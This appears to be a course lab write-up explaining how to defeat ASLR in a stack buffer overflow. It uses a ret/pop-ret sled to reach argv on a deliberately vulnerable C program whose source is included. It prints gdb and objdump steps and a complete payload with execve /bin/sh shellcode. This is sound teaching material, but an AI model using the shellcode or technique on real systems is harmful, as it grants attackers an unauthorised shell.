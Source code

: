 ## Buffer overflow with ASLR(random stack aderess)

## !! Some images are from the course lecture files !!

## Problem
+ Without ASLR, we can find out exact address of the user input.
+ But, with ASLR, it's really hard to get exact address of the stack. Because it changes whenever executing.

## Main idea
+ When calling a function with an user input, there should be the input argument in the stack frame. 
+ If we can found the address of the argument in the stack, and then we can use that address to execute our malicious code.

## Steps
1. Find out where the break points are. There are two break points. Before calling strcpy and after calling.
2. Run gdb and set break points.
3. Run with the random argument you can notice.
4. Find the parameter to check_answer function from the stack using x/72xw $esp.
5. If you investigate stack frame further, you can find exact same address upper portion in the stack frame. Why? because main function call also resides in the stack frame and it also has input arguments.(These are argc, argv)
6. Now, you can caculate how many bytes do we need to overwrite up until the main argv. If we can reach to that point, we may execute main function's argument strings(It is a malicous code)
7. In the image below, we are going to overwrite from Number 1 to Number 5. But What are we going to write?
8. Find the address of 'ret' and 'pop-ret' instruction! In the program there should be several ret and pop-ret instruction itself. We will use it for purpose.

## How to find 'ret' and 'pop-ret'
```
objdump -D ans_check6 | less
objdump -D ans_check6 | grep -B3 ret | grep -A1 pop
```
## The payload I use
```
./ans_check6 $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90'+'\x21\x86\x04\x08'*55+'\x91\x83\x04\x08'")
```

## Result of getting a new shell 
![howto4](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto4.png)

## Figure out how many bytes do we need to fill up
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto3.png)

## Our stack frame
![howto1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto1.png)

## Our strategy
![howto2](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto2.png)


## ans_check6.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[34];
  printf("check_answer.ans is at address %p\n", ans);
  printf("check_answer.ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {
  printf("main:%p\n", main);
  printf("check_answer:%p\n", check_answer);
  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  printf("main.argc is at address %p\n", &argc);
  printf("main.argv[0] is at address %p\n", argv[0]);
  printf("main.argv[1] is at address %p\n", argv[1]);
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}

```
